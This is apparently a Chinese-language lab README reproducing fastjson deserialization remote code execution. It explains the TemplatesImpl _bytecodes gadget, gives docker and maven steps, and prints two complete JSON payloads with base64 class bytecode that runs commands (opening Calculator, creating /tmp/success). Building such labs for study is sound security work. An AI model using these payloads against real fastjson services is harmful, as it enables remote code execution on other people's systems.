




# fastjson 反序列化导致任意命令执行漏洞

## 原理

 - http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/
 - https://github.com/shengqi158/fastjson-remote-code-execute-poc

fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并通过json来填充其属性值。而JDK自带的类`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`中有一个私有属性`_bytecodes`，其部分方法会执行这个值中包含的Java字节码。

所以，想要使用`TemplatesImpl`的`_bytecodes`属性执行任意命令，有几个条件：

1. 目标网站使用fastjson库解析json
2. 解析时设置了`Feature.SupportNonPublicField`，否则不支持传入私有属性
3. 目标使用的jdk中存在`TemplatesImpl`类

当然不排除有其他不需要`TemplatesImpl`的利用方法。

## 测试过程

首先编译与运行测试环境：

```
docker-compose build
docker-compose up -d
```

本环境目录结构如下：

 - src 本项目源码
   - main/java java类
     - IndexFilter.java web源码
     - Poc.java POC源码
 - pom.xml 配置文件，使用maven可以直接将本项目编译成war包
 - exploit.php 读取编译好的POC字节码，并转换成base64
 - fastjson-1.0.war 打包好的web环境，可以直接放到tomcat下运行

### 步骤一、生成字节码

第一步就是编写一个Java类，在这个类中执行命令。然后编译该类，获得.class文件，获得字节码。

修改Poc.java中你想要执行的命令，然后在本目录下使用maven对本项目进行编译，生成`target/classes/Poc.class`：

```
mvn compile
```

如果你没有安装maven，也可以直接使用fastjson-1.0.war这个压缩包中的`WEB-INF/classes/Poc.class`。exploit.php中就是读取的这个我已经编译好的class文件。

### 步骤二、构造POC

生成.class文件后，将该文件的内容进行base64编码，放在json中_bytecodes的值的位置，如下：

```
{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["yv66vgAAADQANAoABwAlCgAmACcIACgKACYAKQcAKgoABQAlBwArAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAVMUG9jOwEACkV4Y2VwdGlvbnMHACwBAAl0cmFuc2Zvcm0BAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAJaGFGbmRsZXJzAQBCW0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7BwAtAQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYBAARhcmdzAQATW0xqYXZhL2xhbmcvU3RyaW5nOwEAAXQHAC4BAApTb3VyY2VGaWxlAQAIUG9jLmphdmEMAAgACQcALwwAMAAxAQAhb3BlbiAvQXBwbGljYXRpb25zL0NhbGN1bGF0b3IuYXBwDAAyADMBAANQb2MBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQATamF2YS9pby9JT0V4Y2VwdGlvbgEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAHAAAAAAAEAAEACAAJAAIACgAAAEAAAgABAAAADiq3AAG4AAISA7YABFexAAAAAgALAAAADgADAAAACwAEAAwADQANAAwAAAAMAAEAAAAOAA0ADgAAAA8AAAAEAAEAEAABABEAEgABAAoAAABJAAAABAAAAAGxAAAAAgALAAAABgABAAAAEQAMAAAAKgAEAAAAAQANAA4AAAAAAAEAEwAUAAEAAAABABUAFgACAAAAAQAXABgAAwABABEAGQACAAoAAAA/AAAAAwAAAAGxAAAAAgALAAAABgABAAAAFgAMAAAAIAADAAAAAQANAA4AAAAAAAEAEwAUAAEAAAABABoAGwACAA8AAAAEAAEAHAAJAB0AHgACAAoAAABBAAIAAgAAAAm7AAVZtwAGTLEAAAACAAsAAAAKAAIAAAAZAAgAGgAMAAAAFgACAAAACQAfACAAAAAIAAEAIQAOAAEADwAAAAQAAQAiAAEAIwAAAAIAJA=="],"_name":"a.b","_tfactory":{ },"_outputProperties":{ },"_version":"1.0","allowedProtocols":"all"}
```

如果你想使用我已经编译好的.class文件，可以直接执行`php exploit.php`获得POC：



我使用jdk1.8编译，执行的命令是`touch /tmp/success`，所以在Windows下会执行失败。Windows用户请自己修改Poc.java，生成自己的POC。

### 步骤三、漏洞利用

目标是一个web应用，访问返回“Hello world”。正常POST一个json，目标会提取json对象中的name和age拼接成一句话返回：



发送步骤二中获取的POC，成功执行命令：



如上图，/tmp/success文件成功被创建。

## 本地测试

上述测试过程是在docker中，执行的命令是`touch /tmp/success`，不能弹计算器，不够直观。

欲深入研究该漏洞，建议在本地进行测试。本地安装maven（无需tomcat等web容器），编译及运行本项目：

```bash
# 编译项目
mvn compile

# 运行IndexFilter:main函数
mvn exec:java -D exec.mainClass="IndexFilter"
```

本项目内置的HTTP Server会监听4567端口。所以，将Poc.java中的命令更改为打开计算器并生成POC，向4567端口POST即可：

```
{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["yv66vgAAADQANAcAAgEAA1BvYwcABAEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBAAY8aW5pdD4BAAMoKVYBAApFeGNlcHRpb25zBwAJAQATamF2YS9pby9JT0V4Y2VwdGlvbgEABENvZGUKAAMADAwABQAGCgAOABAHAA8BABFqYXZhL2xhbmcvUnVudGltZQwAEQASAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwgAFAEAIW9wZW4gL0FwcGxpY2F0aW9ucy9DYWxjdWxhdG9yLmFwcAoADgAWDAAXABgBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEABUxQb2M7AQAJdHJhbnNmb3JtAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgcAJwEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEACWhhRm5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEABG1haW4BABYoW0xqYXZhL2xhbmcvU3RyaW5nOylWBwAtAQATamF2YS9sYW5nL0V4Y2VwdGlvbgoAAQAMAQAEYXJncwEAE1tMamF2YS9sYW5nL1N0cmluZzsBAAF0AQAKU291cmNlRmlsZQEACFBvYy5qYXZhACEAAQADAAAAAAAEAAEABQAGAAIABwAAAAQAAQAIAAoAAABAAAIAAQAAAA4qtwALuAANEhO2ABVXsQAAAAIAGQAAAA4AAwAAAAsABAAMAA0ADQAaAAAADAABAAAADgAbABwAAAABAB0AHgABAAoAAABJAAAABAAAAAGxAAAAAgAZAAAABgABAAAAEQAaAAAAKgAEAAAAAQAbABwAAAAAAAEAHwAgAAEAAAABACEAIgACAAAAAQAjACQAAwABAB0AJQACAAcAAAAEAAEAJgAKAAAAPwAAAAMAAAABsQAAAAIAGQAAAAYAAQAAABYAGgAAACAAAwAAAAEAGwAcAAAAAAABAB8AIAABAAAAAQAoACkAAgAJACoAKwACAAcAAAAEAAEALAAKAAAAQQACAAIAAAAJuwABWbcALkyxAAAAAgAZAAAACgACAAAAGQAIABoAGgAAABYAAgAAAAkALwAwAAAACAABADEAHAABAAEAMgAAAAIAMw=="],"_name":"a.b","_tfactory":{ },"_outputProperties":{ },"_version":"1.0","allowedProtocols":"all"}
```

